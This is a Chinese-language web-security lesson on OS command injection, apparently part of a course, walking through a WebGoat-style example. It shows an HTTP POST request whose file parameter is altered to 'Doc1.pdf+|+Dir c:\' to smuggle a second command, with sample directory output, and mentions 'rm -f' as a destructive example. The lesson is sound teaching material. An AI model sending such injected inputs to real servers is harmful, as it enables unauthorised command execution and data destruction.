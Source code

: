 你好，我是王昊天。

我们在生活中，经常会访问各种网页来获取信息。你有没有想过，我们除了可以获得网页上展示给我们的信息，还能获得它原本不打算展示给我们的信息，甚至可以在网页的服务器上运行我们想要执行的代码来搞一些破坏呢，这种行为就是命令注入。

相信你已经对命令注入有了极大的兴趣，这节课让我们一起来学习这个神奇的攻击方式。

## 命令注入

命令注入，就是在仅仅需要输入数据的场合，攻击者构造数据的同时输入了恶意命令代码，而系统并未过滤掉恶意命令，使得恶意命令代码一并执行，最终导致信息泄露或者正常数据遭到破坏。

在命令注入中，最常见的是**操作系统命令注入**，攻击者可以使用这种注入攻击对服务器执行操作系统命令。例如攻击者可以执行命令`rm -f`，来删除一些重要的文件。这是服务器的管理人员非常不想看到的，下面让我们一起来学习这个可怕的攻击方式吧。

### 操作系统命令注入

当一个Web应用，没有正确清理用户可控输入信息，那么它就有可能会受到此漏洞的影响。

如果这个漏洞存在，那么攻击者就具有执行操作系统命令的能力，就可以上传攻击程序，甚至获得密码信息。这对应用所在服务器会造成很严重的影响。

为了加深你的理解，我们一起来看一个有趣的示例。

有一个网页应用，它包含许多文件，我们可以通过网络访问到。当访问`Doc1.pdf`文件时，我们可以通过`Burp Suite`获取到如下`HTTP POST`请求。

```plain
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

你可以通过这个示例注意到，应用是如何访问到指定文件的。现在我们来测试一下，能不能在这个请求中加入操作系统命令，进行注入操作。我们将上述请求修改如下。

```plain
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

如果应用不对这个请求进行验证操作，我们可以获得如下的结果。

```plain
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
```